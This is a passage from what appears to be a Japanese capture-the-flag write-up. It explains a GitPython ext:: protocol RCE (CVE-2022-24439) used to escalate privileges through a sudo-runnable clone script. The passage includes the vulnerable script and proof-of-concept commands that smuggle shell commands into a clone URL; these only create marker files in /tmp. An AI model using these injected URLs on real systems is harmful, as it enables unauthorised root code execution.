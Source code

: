     - 通常、Git は `ext::` プロトコルの使用を制限しているため、明示的に `-c protocol.ext.allow=always` を指定して有効化している。

```bash
from git import Repo

# Git の bare リポジトリを作成
r = Repo.init('', bare=True)

# 悪意のあるリモートリポジトリをクローン
r.clone_from('ext::sh -c touch% /tmp/pwned', 'tmp', multi_options=["-c protocol.ext.allow=always"])

```


そういえば、PoCを試そうとおもたんだけど、今回は、sudoで実行できるファイルの書き込み権限がないので、このファイルに合わせた形で引数を作ってsudoで実行する必要がある。
- 所有者（User, u） → `rwx`
    - 読み取り（r）
    - 書き込み（w）
    - 実行（x）
    - つまり、何でもできる（フルアクセス）
- グループ（Group, g） → `r-x`
    - 読み取り（r）
    - 実行（x）
    - 書き込み（w）がない → 編集できないが、実行はできる
- その他のユーザー（Other, o）→ `---`
    - アクセス権なし → 他のユーザーは何もできない
    - 
```bash
prod@editorial:/home/dev/apps$ ls -l /opt/internal_apps/clone_changes/clone_prod_change.py
-rwxr-x--- 1 root prod 256 Jun  4  2024 /opt/internal_apps/clone_changes/clone_prod_change.py
```

`/opt/internal_apps/clone_changes/clone_prod_change.py`の中身
 
 
 `ext::` プロトコルの脆弱性による RCE(CVE-2022-24439)
- `clone_from()` で `multi_options=["-c protocol.ext.allow=always"]` を指定しているため、`ext::` プロトコルが有効 になっている
- これにより、以下のようにして リモートコード実行（RCE）が可能：
    `python3 clone_prod_change.py 'ext::sh -c "touch /tmp/hacked"'`
    - これを実行すると、システム上に `/tmp/hacked` というファイルが作成される（攻撃成功）
    - 本来クローンすべき URL の代わりに、シェルコマンドを実行させることができる
```bash
#!/usr/bin/python3

import os
import sys
from git import Repo

# 作業ディレクトリを変更
os.chdir('/opt/internal_apps/clone_changes')

# コマンドライン引数からクローンするURLを取得
url_to_clone = sys.argv[1]

# 空の Git リポジトリを作成
r = Repo.init('', bare=True)

# 指定された URL から Git リポジトリをクローン
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])

```
